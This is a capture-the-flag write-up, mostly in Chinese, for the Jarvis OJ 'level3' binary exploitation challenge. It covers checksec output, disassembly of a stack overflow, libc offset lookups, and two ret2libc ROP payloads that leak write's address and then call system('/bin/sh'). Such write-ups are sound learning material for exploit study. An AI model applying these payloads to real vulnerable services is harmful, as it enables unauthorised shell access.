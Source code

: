 # Description

nc pwn2.jarvisoj.com 9879

# checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000) 
```
开了NX
# analysis

```
.text:0804844B                 public vulnerable_function
.text:0804844B vulnerable_function proc near           ; CODE XREF: main+11p
.text:0804844B
.text:0804844B buf             = byte ptr -88h
.text:0804844B
.text:0804844B                 push    ebp
.text:0804844C                 mov     ebp, esp
.text:0804844E                 sub     esp, 88h
.text:08048454                 sub     esp, 4
.text:08048457                 push    7               ; n
.text:08048459                 push    offset aInput   ; "Input:\n"
.text:0804845E                 push    1               ; fd
.text:08048460                 call    _write
.text:08048465                 add     esp, 10h
.text:08048468                 sub     esp, 4
.text:0804846B                 push    100h            ; nbytes
.text:08048470                 lea     eax, [ebp+buf]
.text:08048476                 push    eax             ; buf
.text:08048477                 push    0               ; fd
.text:08048479                 call    _read
.text:0804847E                 add     esp, 10h
.text:08048481                 nop
.text:08048482                 leave
.text:08048483                 retn
.text:08048483 vulnerable_function endp
```
溢出点其本身没有什么大变化

由于没有给其他的东西，程序小ROP不方便，所以ret2lib、

# exploit

第一步打出got write 地址
栈布置：
0x88 * padding
4 * padding ebp
func:write  addr
ret: write ret addr 继续利用
parameter: 1
parameter: 2
parameter: 3

第二步计算出 system 地址 "/bin/sh" 地址
```
➜  level3 : readelf -a libc-2.19.so | grep "read@"
  950: 000daf60   125 FUNC    WEAK   DEFAULT   12 read@@GLIBC_2.0

➜  level3 : readelf -a libc-2.19.so | grep "system@"
 1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

```
➜  level3 : strings -a -t x ./libc-2.19.so | grep "/bin/sh"
 16084c /bin/sh
```

第三步: 二次溢出获得shell

0x88 * padding + 4 * padding + func_system + 4 * padding + shell_addr

# payload
```
   payload1 = 0x88 * "A" + 4 * "A" + p32(write_plt) + p32(write_ret)+p32(write_parameter_1)+p32(write_parameter_2)+p32(write_parameter_3)
   //calcualte
   payload2 = 0x88 * "A" + 4 * "A" + p32(func_system) + 4*"A" + p32(shell_addr)
```

对于我来说 这是一次挑战!